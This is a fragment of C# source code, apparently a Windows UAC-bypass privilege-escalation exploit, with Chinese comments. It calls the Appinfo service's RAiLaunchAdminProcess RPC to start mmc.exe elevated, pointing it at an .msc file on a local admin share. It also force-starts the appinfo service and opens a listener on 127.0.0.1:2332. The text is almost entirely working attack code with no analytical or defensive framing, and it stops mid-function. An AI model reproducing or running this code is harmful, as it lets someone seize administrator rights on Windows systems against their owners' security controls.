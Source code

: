 ```
                    @"c:\windows", desktop, start_info, new NdrUInt3264(GetDesktopWindow()),
                    -1, out Struct_2 proc_info, out int elev_type);
                if (retval != 0)
                {
                    throw new Win32Exception(retval);
                }

                using (var thread = NtThread.FromHandle(new IntPtr(proc_info.Member8.Value)))
                {
                    return NtProcess.FromHandle(new IntPtr(proc_info.Member0.Value));
                }
            }
        }

        static void StartAppinfoService()
        {
            try
            {
                ServiceController service = new ServiceController("appinfo");
                if (service.Status != ServiceControllerStatus.Running)
                {
                    service.Start();
                    service.WaitForStatus(ServiceControllerStatus.Running, TimeSpan.FromSeconds(5));
                }
            }
            catch
            {
            }
        }

        /*
         * RAiLaunchAdminProcess(
            handle,                                                   handle
            L"C:\\Windows\\System32\\mmc.exe",                        执行路径  
            L"XXX,wf.msc \"\\\\127.0.0.1\\C$\\gweeperx\\test.msc\"",  执行命令  *
            0x1,                                                      StartFlag  1是管理员0是当前用户
            0x00000400,                                               CreateFlag
            L"D:\\",                                                  当前目录
            L"WinSta0\\Default",                                      WindowsStation
            &StructMember0,                                           Struct APP_STARTUP_INFO
            0,                                                        HWND
            0xffffffff,                                               Timeout
            &Struct_56,                                               Struct APP_PROCESS_INFORMATION
            &arg_12                                                   ElevationType
        );
        */

        public static void OpenWebServer() {
            Socket socketWatch = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);
            socketWatch.Bind(new IPEndPoint(IPAddress.Parse("127.0.0.1"), 2332));
            socketWatch.Listen(20); 

            Socket socket = socketWatch.Accept();

            byte[] data = new byte[1024 * 1024 * 4];
            System.Threading.Thread.Sleep(1000);
            int sizenum = socket.Available;
            Console.WriteLine(sizenum);
            int length = socket.Receive(data, 0, sizenum, SocketFlags.None);

```